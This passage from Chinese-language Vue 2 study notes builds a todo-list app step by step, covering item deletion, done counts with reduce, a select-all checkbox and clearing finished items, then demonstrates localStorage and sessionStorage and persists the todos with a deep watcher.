        //console.log('id=',id)
        //通知App组件将对应的todo对象的done值取反
        this.checkTodo(id);
      }
    }
  }
</script>

<style scoped>
/*Item*/
li{
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label{
  float: left;
  cursor: pointer;
}

li label li input{
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button{
  float: right;
  display: none;
  margin-top: 3px;
}

li:before{
  content: initial;
}

li:last-child{
  border-bottom: none;
}
</style>
```


> 实现列表的数据删除功能

1. 实现鼠标悬浮时，数据项高亮，并且展示删除按钮

   

2. 使用前面的多层传递回调函数方法，将App组件的和删除回调函数，传递给Item

App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader :addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos" v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"/><!--传递一个数据对象，传递一个回调函数-->

        <MyFooter/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]
    }
  },
  methods:{
    //添加一个todo
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    },
    //选择或取消选择一个todo
    checkTodo(id){
      this.todos.forEach((todo)=>{
        if (todo.id === id)todo.done = !todo.done;//将值取反
      })
    },
    delTodo(id){
      this.todos = this.todos.filter((todo)=>{
        return todo.id != id;
      })
    }
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```

List.vue

```vue
<template>
  <ul class="todo-main">
    <Item
        v-for="todo of todos"
        :key="todo.id"
        :todo="todo"
        :checkTodo="checkTodo"
        :delTodo="delTodo"
    /><!--将App的回调函数传递给Item-->
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List',
    components: {Item},
    props:['todos','checkTodo','delTodo']
  }
</script>

<style scoped>
/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

Item.vue

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
      <span>{{todo.title}}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
  export default {
    name:'Item',
    props:['todo','checkTodo','delTodo'],//声明接收todo对象
    mounted() {
      console.log(this.todo)
    },
    methods:{
      handleCheck(id){
        //console.log('id=',id)
        //通知App组件将对应的todo对象的done值取反
        this.checkTodo(id);
      },
      handleDelete(id){
        if (confirm('确定删除吗?')){
          console.log('del id=',id)
          this.delTodo(id);
        }
      }
    }
  }
</script>

<style scoped>
/*Item*/
li{
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label{
  float: left;
  cursor: pointer;
}

li label li input{
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button{
  float: right;
  display: none;
  margin-top: 3px;
}

li:before{
  content: initial;
}

li:last-child{
  border-bottom: none;
}

li:hover{
  background-color: #ddd;
}

li:hover button{
  display: block;
}
</style>
```


> 实现底部统计

1. 底部需要对全部数据进行处理，要传递App的todos

   

   

2. 可以直接展示数据的使用插值语法，需要整合计算得出的使用计算属性

   ```vue
   <template>
     <div class="todo-footer">
       <label>
         <input type="checkbox">
       </label>
       <span>
         <span>已完成{{doneTotal}}</span> / 全部{{todos.length}}
       </span>
       <button class="btn btn-danger">清除已完成任务</button>
     </div>
   </template>
   
   <script>
     export default {
       name:'MyFooter',
       props:['todos'],
       computed:{
         doneTotal(){
           //普通写法
           let i = 0;
           this.todos.forEach((todo)=>{
             if (todo.done)i++
           })
           return i
         }
       }
     }
   </script>
   
   <style scoped>
   /*Footer*/
   .todo-footer{
     height: 40px;
     line-height: 40px;
     padding-left: 6px;
     margin-top: 5px;
   }
   
   .todo-footer label{
     display: inline-block;
     margin-right: 20px;
     cursor: pointer;
   }
   
   .todo-footer label input{
     position: relative;
     top: -1px;
     vertical-align: middle;
     margin-right: 5px;
   }
   
   .todo-footer button{
     float: right;
     margin-top: 5px;
   }
   </style>
   ```

   

3. 使用ES6的 统计函数

   ```js
   ??.reduce((pre,current)=>{
       console.log('@',pre);
   },0)
   
   这里如果数组长度为3，则会输出三次。方法需要返回值。如果部分会情况下的输出是：
   0,undefined,undefined
   第一次输出：pre是上一次的值，所以为0
   第二次输出：因为上一次没有返回，所以undefined
   第三次输出：因为上一次没有返回，所以undefined
   ```

   当返回固定值时：

   ```js
   ??.reduce((pre,current)=>{
       console.log('@',pre);
       return 3
   },0)
   0,3,3
   第一次输出：pre是上一次的值，所以为0
   第二次输出：因为上一次返回3，所以3
   第三次输出：因为上一次返回3，所以3
   ```

   当返回递增值时：

   ```js
   const x = ??.reduce((pre,current)=>{
       console.log('@',pre);
       return pre+1
   },0)
   0,3,3
   第一次输出：pre是上一次的值，所以为0
   第二次输出：因为上一次返回0+1，所以1
   第三次输出：因为上一次返回1+1，所以2
   当第三次执行完毕时，pre+1=3，这一个值将作为reduce函数的返回值。x=3;
   ```

4. 使用reduce函数来统计

   ```vue
   <template>
     <div class="todo-footer">
       <label>
         <input type="checkbox">
       </label>
       <span>
         <span>已完成{{doneTotal}}</span> / 全部{{todos.length}}
       </span>
       <button class="btn btn-danger">清除已完成任务</button>
     </div>
   </template>
   
   <script>
     export default {
       name:'MyFooter',
       props:['todos'],
       computed:{
         doneTotal(){
           //普通写法
           /*let i = 0;
           this.todos.forEach((todo)=>{
             if (todo.done)i++
           })
           return i*/
           //使用数组的reduce条件统计方法(上一次的值，当前的值)=>{},(函数，统计时的初始值)
           const x = this.todos.reduce((pre,current)=>{
             console.log('@',pre,current);
             return pre + (current.done?1:0)
           },0)
           console.log('x=',x)
           return x;
         }
       }
     }
   </script>
   
   <style scoped>
   /*Footer*/
   .todo-footer{
     height: 40px;
     line-height: 40px;
     padding-left: 6px;
     margin-top: 5px;
   }
   
   .todo-footer label{
     display: inline-block;
     margin-right: 20px;
     cursor: pointer;
   }
   
   .todo-footer label input{
     position: relative;
     top: -1px;
     vertical-align: middle;
     margin-right: 5px;
   }
   
   .todo-footer button{
     float: right;
     margin-top: 5px;
   }
   </style>
   ```

   效果：

   

5. 这一个写法可以再进行精简

   原本写法：

   ```js
   doneTotal(){
       //使用数组的reduce条件统计方法(上一次的值，当前的值)=>{},(函数，统计时的初始值)
       const x = this.todos.reduce((pre,current)=>{
           console.log('@',pre,current);
           return pre + (current.done?1:0)
       },0)
       console.log('x=',x)
       return x;
   }
   ```

   精简写法：

   ```js
   doneTotal(){
       //使用数组的reduce条件统计方法(上一次的值，当前的值)=>{},(函数，统计时的初始值)
       return  this.todos.reduce((pre,current)=>pre + (current.done?1:0),0)
   }
   ```

最终代码：

MyFooter.vue

```vue
<template>
  <div class="todo-footer">
    <label>
      <input type="checkbox">
    </label>
    <span>
      <span>已完成{{doneTotal}}</span> / 全部{{todos.length}}
    </span>
    <button class="btn btn-danger">清除已完成任务</button>
  </div>
</template>

<script>
  export default {
    name:'MyFooter',
    props:['todos'],
    computed:{
      doneTotal(){
        //普通写法
        /*let i = 0;
        this.todos.forEach((todo)=>{
          if (todo.done)i++
        })
        return i*/
        //使用数组的reduce条件统计方法(上一次的值，当前的值)=>{},(函数，统计时的初始值)
        /*const x = this.todos.reduce((pre,current)=>{
          console.log('@',pre,current);
          return pre + (current.done?1:0)
        },0)
        console.log('x=',x)
        return x;*/
        return  this.todos.reduce((pre,current)=>pre + (current.done?1:0),0)
      }
    }
  }
</script>

<style scoped>
/*Footer*/
.todo-footer{
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label{
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input{
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button{
  float: right;
  margin-top: 5px;
}
</style>
```


> 底部的交互功能

1. 底部的单选框，在一个个勾选到全部时也得勾选

2. 当数据为空时，也就没有全选的必要了，也不需要展示下面的底部

3. 底部的单选框，点击时执行列表的全选或全不选，由于是操作到数据done属性，数据在App组件中，所以方法也定义在该组件中，再提供回调函数的方式。

   

   

   

   

4. 这里可以看到，初始化展示用`:checked="isAll"`，数据交互用`@change="checkAll"`这里就可以合并用双向绑定的`v-model`

   

   将分开操作的值，合并到一起，并以计算属性的get和set来操作

   

最终的代码：

App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader :addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos" v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"/><!--传递一个数据对象，传递一个回调函数-->

        <MyFooter :todos="todos" :checkAllTodo="checkAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]
    }
  },
  methods:{
    //添加一个todo
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    },
    //选择或取消选择一个todo
    checkTodo(id){
      this.todos.forEach((todo)=>{
        if (todo.id === id)todo.done = !todo.done;//将值取反
      })
    },
    //删除一个todo
    delTodo(id){
      this.todos = this.todos.filter((todo)=>{
        return todo.id != id;
      })
    },
    //全选或全不选
    checkAllTodo(done){
      this.todos.forEach((todo)=>{
        todo.done = done;
      })
    }
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```

MyFooter.vue

```vue
<template>
  <div class="todo-footer" v-show="total"><!--如果total有值就是false如果为0则true-->
    <label>
<!--      <input type="checkbox" :checked="isAll" @change="checkAll">--><!--增加点击全选的功能-->
      <input type="checkbox" v-model="isAll"><!--增加点击全选的功能-->
    </label>
    <span>
      <span>已完成{{doneTotal}}</span> / 全部{{total}}
    </span>
    <button class="btn btn-danger">清除已完成任务</button>
  </div>
</template>

<script>
  export default {
    name:'MyFooter',
    props:['todos','checkAllTodo'],
    computed:{
      total(){
        return this.todos.length
      },
      doneTotal(){
        //普通写法
        /*let i = 0;
        this.todos.forEach((todo)=>{
          if (todo.done)i++
        })
        return i*/
        //使用数组的reduce条件统计方法(上一次的值，当前的值)=>{},(函数，统计时的初始值)
        /*const x = this.todos.reduce((pre,current)=>{
          console.log('@',pre,current);
          return pre + (current.done?1:0)
        },0)
        console.log('x=',x)
        return x;*/
        return  this.todos.reduce((pre,current)=>pre + (current.done?1:0),0)
      },
      /*isAll(){
        return this.doneTotal === this.total && this.total>0;//这一个计算属性是基于前面的两个计算属性的结果
      }*/
      isAll:{
        get(){//读时就返回是否处于全选状态
          return this.doneTotal === this.total && this.total>0;
        },
        set(value){//写时就更改数据，这里的传参就是勾选或取消勾选时调用set方法传递当前的状态
          this.checkAllTodo(value)
        }
      }
    },
    methods:{
      /*checkAll(event){
        console.log(event.target.checked)//拿到单选框是全选还是全不选的信息
        this.checkAllTodo(event.target.checked)
      }*/
    }
  }
</script>

<style scoped>
/*Footer*/
.todo-footer{
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label{
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input{
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button{
  float: right;
  margin-top: 5px;
}
</style>
```

展示效果：


> 清除已完成任务

将前面勾选的值给清除，由于数据存再App组件中，所以数据的操作方法也定义在App中，并以回调函数的方式提供。clearAllTodo函数。

App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader :addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos" v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"/><!--传递一个数据对象，传递一个回调函数-->

        <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]
    }
  },
  methods:{
    //添加一个todo
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    },
    //选择或取消选择一个todo
    checkTodo(id){
      this.todos.forEach((todo)=>{
        if (todo.id === id)todo.done = !todo.done;//将值取反
      })
    },
    //删除一个todo
    delTodo(id){
      this.todos = this.todos.filter((todo)=>{
        return todo.id != id;
      })
    },
    //全选或全不选
    checkAllTodo(done){
      this.todos.forEach((todo)=>{
        todo.done = done;
      })
    },
    //清除所有已经完成的todo
    clearAllTodo(){
      this.todos = this.todos.filter((todo)=>{
        return !todo.done//done值为假，也就是说done是没有勾选的数据项保留下来
      })
    }
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```

MyFooter.vue

```vue
<template>
  <div class="todo-footer" v-show="total"><!--如果total有值就是false如果为0则true-->
    <label>
<!--      <input type="checkbox" :checked="isAll" @change="checkAll">--><!--增加点击全选的功能-->
      <input type="checkbox" v-model="isAll"><!--增加点击全选的功能-->
    </label>
    <span>
      <span>已完成{{doneTotal}}</span> / 全部{{total}}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>

<script>
  export default {
    name:'MyFooter',
    props:['todos','checkAllTodo','clearAllTodo'],
    computed:{
      total(){
        return this.todos.length
      },
      doneTotal(){
        //普通写法
        /*let i = 0;
        this.todos.forEach((todo)=>{
          if (todo.done)i++
        })
        return i*/
        //使用数组的reduce条件统计方法(上一次的值，当前的值)=>{},(函数，统计时的初始值)
        /*const x = this.todos.reduce((pre,current)=>{
          console.log('@',pre,current);
          return pre + (current.done?1:0)
        },0)
        console.log('x=',x)
        return x;*/
        return  this.todos.reduce((pre,current)=>pre + (current.done?1:0),0)
      },
      /*isAll(){
        return this.doneTotal === this.total && this.total>0;//这一个计算属性是基于前面的两个计算属性的结果
      }*/
      isAll:{
        get(){//读时就返回是否处于全选状态
          return this.doneTotal === this.total && this.total>0;
        },
        set(value){//写时就更改数据，这里的传参就是勾选或取消勾选时调用set方法传递当前的状态
          this.checkAllTodo(value)
        }
      }
    },
    methods:{
      /*checkAll(event){
        console.log(event.target.checked)//拿到单选框是全选还是全不选的信息
        this.checkAllTodo(event.target.checked)
      }*/
      clearAll(){
        this.clearAllTodo();
      }
    }
  }
</script>

<style scoped>
/*Footer*/
.todo-footer{
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label{
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input{
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button{
  float: right;
  margin-top: 5px;
}
</style>
```

效果：


#### 总结


全部代码：


展示效果：


main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'

//关闭vue的生产提示
Vue.config.productionTip=false

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App)//全局的实例都有插件中的data追加值
})
```

App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader :addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos" v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"/><!--传递一个数据对象，传递一个回调函数-->

        <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]
    }
  },
  methods:{
    //添加一个todo
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    },
    //选择或取消选择一个todo
    checkTodo(id){
      this.todos.forEach((todo)=>{
        if (todo.id === id)todo.done = !todo.done;//将值取反
      })
    },
    //删除一个todo
    delTodo(id){
      this.todos = this.todos.filter((todo)=>{
        return todo.id != id;
      })
    },
    //全选或全不选
    checkAllTodo(done){
      this.todos.forEach((todo)=>{
        todo.done = done;
      })
    },
    //清除所有已经完成的todo
    clearAllTodo(){
      this.todos = this.todos.filter((todo)=>{
        return !todo.done//done值为假，也就是说done是没有勾选的数据项保留下来
      })
    }
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
.todo-container .todo-wrap{
  padding: 10px;
  border: 1px solid #ddd;
  border-radius: 5px;
}

</style>
```

MyHeader.vue

```vue
<template>
  <div class="todo-header">
    <input type="text" placeholder="请输入你的任务名称：按回车键确认" @keyup.enter="add"><!--v-model="title"-->
  </div>
</template>

<script>
import {nanoid} from 'nanoid'

  export default {
    name:'MyHeader',
    /*data(){
      return{
        title:''
      }
    },*/
    methods:{
      add(event){
        //获取输入框的内容
        //console.log(event.target.value)
        //通过双向绑定实现
        //console.log(this.title)

        //空判
        if (!event.target.value.trim()) return alert("输入不能为空！") ;
        //将用户的输入包装成一个对象 ，受用uuid的变种nanoid
        const todo = {id:nanoid(),title:event.target.value,done:false};
        console.log(todo)
        //调用父组件传递的方法，将数据回传给父组件
        this.addTodo(todo);
        //添加完后，清空输入框
        event.target.value =  '';
      }
    },
    props:['addTodo']
  }
</script>

<style scoped>
/*Header*/
.todo-header input{
  width: 560px;
  height: 28px;
  font-size: 14px;
  border: 1px solid #ccc;
  border-radius: 4px;
  padding: 4px 7px;
}

.todo-header input:focus{
  outline: none;
  border-color: rgba(82,168,236,0.8);
  box-shadow: inset 0 1px 1px rgba(0,0,0,0.075), 0 0 8px rgba(82,168,236,0.6);
}
</style>
```

List.vue

```vue
<template>
  <ul class="todo-main">
    <Item
        v-for="todo of todos"
        :key="todo.id"
        :todo="todo"
        :checkTodo="checkTodo"
        :delTodo="delTodo"
    /><!--将App的回调函数传递给Item-->
  </ul>
</template>

<script>
import Item from "@/components/Item";

  export default {
    name:'List',
    components: {Item},
    props:['todos','checkTodo','delTodo']
  }
</script>

<style scoped>
/*Main*/
.todo-main{
  margin-left: 0px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding: 0px;
}
.todo-empty{
  height: 40px;
  line-height: 40px;
  border: 1px solid #ddd;
  border-radius: 2px;
  padding-left: 5px;
  margin-top: 10px;
}
</style>
```

Item.vue

```vue
<template>
  <li>
    <label>
      <input type="checkbox" :checked="todo.done" @change="handleCheck(todo.id)">
      <span>{{todo.title}}</span>
    </label>
    <button class="btn btn-danger" @click="handleDelete(todo.id)">删除</button>
  </li>
</template>

<script>
  export default {
    name:'Item',
    props:['todo','checkTodo','delTodo'],//声明接收todo对象
    mounted() {
      console.log(this.todo)
    },
    methods:{
      handleCheck(id){
        //console.log('id=',id)
        //通知App组件将对应的todo对象的done值取反
        this.checkTodo(id);
      },
      handleDelete(id){
        if (confirm('确定删除吗?')){
          console.log('del id=',id)
          this.delTodo(id);
        }
      }
    }
  }
</script>

<style scoped>
/*Item*/
li{
  list-style: none;
  height: 36px;
  line-height: 36px;
  padding: 0 5px;
  border-bottom: 1px solid #ddd;
}

li label{
  float: left;
  cursor: pointer;
}

li label li input{
  vertical-align: middle;
  margin-right: 6px;
  position: relative;
  top: -1px;
}

li button{
  float: right;
  display: none;
  margin-top: 3px;
}

li:before{
  content: initial;
}

li:last-child{
  border-bottom: none;
}

li:hover{
  background-color: #ddd;
}

li:hover button{
  display: block;
}
</style>
```

MyFooter.vue

```vue
<template>
  <div class="todo-footer" v-show="total"><!--如果total有值就是false如果为0则true-->
    <label>
<!--      <input type="checkbox" :checked="isAll" @change="checkAll">--><!--增加点击全选的功能-->
      <input type="checkbox" v-model="isAll"><!--增加点击全选的功能-->
    </label>
    <span>
      <span>已完成{{doneTotal}}</span> / 全部{{total}}
    </span>
    <button class="btn btn-danger" @click="clearAll">清除已完成任务</button>
  </div>
</template>

<script>
  export default {
    name:'MyFooter',
    props:['todos','checkAllTodo','clearAllTodo'],
    computed:{
      total(){
        return this.todos.length
      },
      doneTotal(){
        //普通写法
        /*let i = 0;
        this.todos.forEach((todo)=>{
          if (todo.done)i++
        })
        return i*/
        //使用数组的reduce条件统计方法(上一次的值，当前的值)=>{},(函数，统计时的初始值)
        /*const x = this.todos.reduce((pre,current)=>{
          console.log('@',pre,current);
          return pre + (current.done?1:0)
        },0)
        console.log('x=',x)
        return x;*/
        return  this.todos.reduce((pre,current)=>pre + (current.done?1:0),0)
      },
      /*isAll(){
        return this.doneTotal === this.total && this.total>0;//这一个计算属性是基于前面的两个计算属性的结果
      }*/
      isAll:{
        get(){//读时就返回是否处于全选状态
          return this.doneTotal === this.total && this.total>0;
        },
        set(value){//写时就更改数据，这里的传参就是勾选或取消勾选时调用set方法传递当前的状态
          this.checkAllTodo(value)
        }
      }
    },
    methods:{
      /*checkAll(event){
        console.log(event.target.checked)//拿到单选框是全选还是全不选的信息
        this.checkAllTodo(event.target.checked)
      }*/
      clearAll(){
        this.clearAllTodo();
      }
    }
  }
</script>

<style scoped>
/*Footer*/
.todo-footer{
  height: 40px;
  line-height: 40px;
  padding-left: 6px;
  margin-top: 5px;
}

.todo-footer label{
  display: inline-block;
  margin-right: 20px;
  cursor: pointer;
}

.todo-footer label input{
  position: relative;
  top: -1px;
  vertical-align: middle;
  margin-right: 5px;
}

.todo-footer button{
  float: right;
  margin-top: 5px;
}
</style>
```

### 浏览器的存储

#### 浏览器的本地存储local Storage

local Storage：浏览器本地存储


local Storage最大的特点是把浏览器关闭之后，也不会丢失。

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>localStorage</title>
</head>
<body>
    <button onclick="saveData()">点我保存一个数据</button>
    <button onclick="readData()">点我读取一个数据</button>
    <button onclick="deleteData()">点我删除一个数据</button>
    <button onclick="deleteAllData()">点我清空数据</button>
    <script type="application/javascript">
        function saveData() {
            let p = {name:'zhuzhe',age:26}

            window.localStorage.setItem('msg','hello!')//key和value都得是字符串
            window.localStorage.setItem('msg2',123)
            window.localStorage.setItem('msg3',p)
            window.localStorage.setItem('msg4',JSON.stringify(p))

        }
        
        function readData() {
            console.log(localStorage.getItem('msg'))
            console.log(localStorage.getItem('msg2'))
            console.log(localStorage.getItem('msg3'))
            console.log(JSON.parse(localStorage.getItem('msg4')))
        }
        function deleteData() {
            localStorage.removeItem('msg');
        }
        function deleteAllData() {
            localStorage.clear();
        }
    </script>
</body>
</html>
```


#### 浏览器的会话存储session Storage

和本地存储一样的操作，但是浏览器一关闭数据就没了

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>sessionStorage</title>
</head>
<body>
<button onclick="saveData()">点我保存一个数据</button>
<button onclick="readData()">点我读取一个数据</button>
<button onclick="deleteData()">点我删除一个数据</button>
<button onclick="deleteAllData()">点我清空数据</button>
<script type="application/javascript">
    function saveData() {
        let p = {name:'zhuzhe',age:26}

        window.sessionStorage.setItem('msg','hello!')//key和value都得是字符串
        window.sessionStorage.setItem('msg2',123)
        window.sessionStorage.setItem('msg3',p)
        window.sessionStorage.setItem('msg4',JSON.stringify(p))

    }

    function readData() {
        console.log(sessionStorage.getItem('msg'))
        console.log(sessionStorage.getItem('msg2'))
        console.log(sessionStorage.getItem('msg3'))
        console.log(JSON.parse(sessionStorage.getItem('msg4')))
    }
    function deleteData() {
        sessionStorage.removeItem('msg');
    }
    function deleteAllData() {
        sessionStorage.clear();
    }
</script>
</body>
</html>
```


总结：webStorage(local Storage、session Storage)


### 案例：代办事项实现本地存储

之前的代办事项案例中，数据是写死在App组件中，每次组件重新加载时，之前的操作就都会重置。为了永久保存，将数据存储到浏览器本地存储空间中。

* 组件初始化时，使用localStorage.getItem()获取
* 组件修改时，通过watch深度监视，将变化的值覆盖。localStorage.getItem()

App.vue

```vue
<template>
  <div id="root">
    <div class="todo-container">
      <div class="todo-wrap">

        <MyHeader :addTodo="addTodo"/><!--将函数给组件，组件调函数会在父组件响应-->

        <List :todos="todos" v-bind:checkTodo="checkTodo" v-bind:delTodo="delTodo"/><!--传递一个数据对象，传递一个回调函数-->

        <MyFooter :todos="todos" :checkAllTodo="checkAllTodo" :clearAllTodo="clearAllTodo"/>
      </div>
    </div>
  </div>
</template>

<script>
import MyHeader from "@/components/MyHeader";
import List from "@/components/List";
import MyFooter from "@/components/MyFooter";


export default {
  name:'App',
  components:{MyHeader,List,MyFooter},
  data(){
    return{
      /*todos:[
        {id:'001',title:'吃饭',done:true},
        {id:'002',title:'睡觉',done:false},
        {id:'003',title:'抽烟',done:true}
      ]*/
      todos:JSON.parse(localStorage.getItem('todos'))||[]//如果有本地存储则放入，如果没有则空数组
    }
  },
  methods:{
    //添加一个todo
    addTodo(x){
      console.log("receive(App)...",x)
      this.todos.unshift(x);//往对象数组的头部插入元素
    },
    //选择或取消选择一个todo
    checkTodo(id){
      this.todos.forEach((todo)=>{
        if (todo.id === id)todo.done = !todo.done;//将值取反
      })
    },
    //删除一个todo
    delTodo(id){
      this.todos = this.todos.filter((todo)=>{
        return todo.id != id;
      })
    },
    //全选或全不选
    checkAllTodo(done){
      this.todos.forEach((todo)=>{
        todo.done = done;
      })
    },
    //清除所有已经完成的todo
    clearAllTodo(){
      this.todos = this.todos.filter((todo)=>{
        return !todo.done//done值为假，也就是说done是没有勾选的数据项保留下来
      })
    }
  },
  watch:{
    todos:{
      deep:true,//深度监视，对数组内部的修改都会被监视
      handler(newValue, oldValue){
        localStorage.setItem('todos',JSON.stringify(newValue));//将数据保存覆盖到本地存储
      }
    }
  }
}
</script>

<style>
/*base*/
body{
  background: #fff;
}
.btn{
  display: inline-block;
  padding: 4px 12px;
  margin-bottom: 0;
  font-size: 14px;
  line-height: 20px;
  text-align: center;
  vertical-align: middle;
  cursor: pointer;
  box-shadow: inset 0 1px 0 rgba(255,255,255,0.2), 0 1px 2px rgba(0,0,0,0.05);
  border-radius: 4px;
}
.btn-danger{
  color: #fff;
  background-color: #da4f49;
  border: 1px solid #bd362f;
}
.btn-danger:hover{
  color: #fff;
  background-color: #bd362f;
}
.btn:focus{
  outline: none;
}
.todo-container{
  width: 600px;
  margin: 0 auto;
}
